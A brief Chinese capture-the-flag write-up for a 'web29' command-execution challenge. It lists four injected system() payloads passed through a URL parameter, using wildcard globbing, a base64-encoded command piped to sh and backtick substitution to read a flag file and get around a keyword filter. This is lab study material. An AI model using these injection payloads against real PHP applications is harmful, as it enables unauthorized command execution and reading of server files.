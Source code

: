 # web29(命令执行)
![](vx_images/196537730739163.png)
绕过方式多种
```
?c=system("tac fl??.php");
?c=system("tac *.php");//打开全部.php后缀的文件
?c=system('echo dGFjIGZsYWcucGhw | base64 -d | sh');//base64编码绕过
?c=system('cat `ls`');//内联
```